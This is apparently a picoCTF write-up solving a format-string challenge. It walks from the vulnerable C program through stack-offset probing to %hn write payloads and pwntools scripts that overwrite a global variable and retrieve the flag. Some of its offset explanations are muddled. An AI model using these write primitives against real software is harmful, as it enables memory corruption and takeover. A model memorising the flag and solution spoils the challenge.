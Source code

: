 # format string 2

## Solving

```
This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must change data on the stack!
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc rhea.picoctf.net 59604
```

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

We see our vulnerability here 

```c
 scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
```
Now over here it checks if the variable ``sus`` is ``= galf`` in little endian order. This was originally Flag. If it is it returns us the flag. Else it prints out what our current sus is set to.

Now over here we ``sus`` is declared as a global variable and in this is case is set to ``int sus = 0x21737573;``

```
Non-debugging symbols:
0x000000000040038c  __abi_tag
0x0000000000402000  _IO_stdin_used
0x0000000000402104  __GNU_EH_FRAME_HDR
0x00000000004021d8  __FRAME_END__
0x0000000000403e10  __frame_dummy_init_array_entry
0x0000000000403e18  __do_global_dtors_aux_fini_array_entry
0x0000000000403e20  _DYNAMIC
0x0000000000404000  _GLOBAL_OFFSET_TABLE_
0x0000000000404050  __data_start
0x0000000000404050  data_start
0x0000000000404058  __dso_handle
0x0000000000404060  sus
```

After using gdb to investigate the stack and looking where this sus variable was located we find out that it is present at the address location ``0x0000000000404060``

Now considering they have given us an input lets see where exactly this is stored on the stack using this script

```python
print("1"*8 + ",%llx" * 50)
```

we can also send this in one line using ``(python3 -c 'print("1"*8 + ",%llx" * 50)')``

```shell
hadakoi@Laptop:~/ctfsolve$ python3 script.py | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 11111111,7fffae4b3400,0,0,a,400,7fcb6a230860,7fcb6a268ab0,0,0,0,7fcb6a2692e0,1a0c23d,7fcb6a230d78,3131313131313131,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c  252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,2c786c6c252c786c,6c6c252c786c6c25,252c786c6c252c78,786c6c252c786c6c,6c252c786c6c252c,786c,7c5eaa4c508a2a00,0,1,7fffae4b3750
sus = 0x21737573
You can do better!
```
Now looking at this we realise our input is stored at the 14th part of the stack.

So from here there are some things we can do specially in this case.

However say for example trying something like this ->

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24323225,3131313131313131,0,7f38e1faa451,7f38e1f98140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```
Ends up moving it to the 19th position? Now even trying to see the 14th position we see that it shows `` 2c786c6c24343125`` and the item is at the position of 20 now????

```shell
hadakoi@Laptop:~/ctfsolve$ (python3 -c 'print("%14$llx,%18$llx,%19$llx,%20$llx,%21$llx,%22$llx,11111111")') | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 2c786c6c24343125,2c786c6c24313225,2c786c6c24323225,3131313131313131,7f2790666400,7f2790654140,11111111
sus = 0x21737573
You can do better!
hadakoi@Laptop:~/ctfsolve$
```

The reason this is is because the addresses we are trying to view prior end up buffering it from the known offset of 14 to the value of 20. as such hence overflowing it of sorts.  This because our length of payload is 48 bits or 6 bytes hence moving us 6 bytes up from 14 to 20.

As we know the base is 14 we can then start creating a payload from this.

Now essentially we want the value of `` 0x67616c66`` at ``0x404060``. Now normally when doing format string attacks instead of using 4 bytes which is the byte value of the string we are trying to change it to we split it into smaller parts which is over here hence storing them correctly.

```
0x6761 at the location (0x404062) (bytes for 6761) 26465
0x6c66 at the location (0x404060) (bytes for 6c66) 27750
```

This is keeping in mind the endiannesss

As such we can then craft our payload: 

``"'%26465x%18$hn...'" + "%1282x%19$hn...." + "\x62\x40\x40\x00\x00\x00\x00\x00" + "\x60\x40\x40\x00\x00\x00\x00\x00"``

Now over here we have the string ``%26465x%19$hn...`` the reason we use this is becuase first we want to move 26465 once that is done we have the value ``%18$hn...`` the ... here are supposed to make the length of the payload uniform as we have seen previously even the length of accessing values on the stack effects it. The 18 value comes from our known offset which is 14 however both our exploit lengths seem to be of bits 16 which comes out to 32 essentially becoming 4 bytes hence we have the value of 18


The ``1282x%19$hn....`` helps setup the next part. This because we need to get to 27750 and this used 26465 already. hence we can do 27750 - 26465 for a value of ``1285 chars``. Now as we had use padding to clear up the space and we also had to write there lets go back 3 ``...`` taking us to 1282. Now as we have written a value on the 18th value offset we now just need to write it on the 19th offset hence matching it correctly. Over here we also padd it with an extra bit ``.`` as it requires  

We also have to pass what what the targeted address is which in this case is ``0x404062`` which we pass in little endian format same for the other address.

Hence we come up with this script to automate the solve ->

So in all actuallity ->  printing all the characters of the length of the string from hex then finding the offset and putting the address at said offset.

```python
from pwn import *

context.arch = 'amd64'

p = remote('rhea.picoctf.net',56121)
s = p.recvuntil('say?')

p.sendline('%26465x%18$hn...' + '%1282x%19$hn....' + '\x62\x40\x40\x00\x00\x00\x00\x00' + '\x60\x40\x40\x00\x00\x00\x00\x00')
p.interactive()
```

## Flag

> picoCTF{f0rm47_57r?_f0rm47_m3m_f43e6ccc}


Cool script without all the calculation bs 

```python
from pwn import *

context.arch = 'amd64'

p = remote('rhea.picoctf.net', 56121)

p.recvuntil("say?")


payload = fmtstr_payload(14, {0x404060: 0x67616c66})
p.sendline(payload)
p.interactive()
```
